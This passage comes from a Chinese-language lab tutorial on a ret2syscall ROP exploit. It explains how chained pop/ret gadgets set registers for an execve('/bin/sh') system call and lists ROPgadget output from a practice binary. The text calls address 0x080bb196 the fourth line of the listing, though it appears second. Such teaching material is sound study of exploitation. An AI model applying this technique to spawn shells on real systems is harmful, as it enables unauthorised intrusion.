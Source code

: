 
过程：溢出后此时返回的地址是 pop eax 的地址，程序进而转型向该地址执行，此时栈顶的元素为 0xb，执行 pop eax 后 eax 的值成功地赋值为 0xb，接着执行 pop eax 后一句指令 ret，返回下一条指令的地址，需要出栈，正好将程序的执行位置转向了 pop ebx 所在的位置，重复上述过程，到最后将程序指向了 int 0x80 处，进行系统调用

那么，如何找到类似的 pop eax，ret 程序呢——使用工具：ROPgadget

使用如下命令：

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2syscall --only 'pop|ret' | grep 'eax'

0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```

以上可随意选择，为了简单起见，可以选择第 4 行，即地址为 0x080bb196

选择其他的也可以，比如第一行，在地址后面首先放入 0xb，再放入 addr(/bin/sh),再随意放入 8 个字符填充 esi 和 edi，再放入填充 ecx 指令的地址，原理类似，搞清楚执行流程即可

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2syscall --only 'pop|ret' | grep 'ebx'

0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x08048547 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0807b6ed : pop ss ; pop ebx ; ret
```
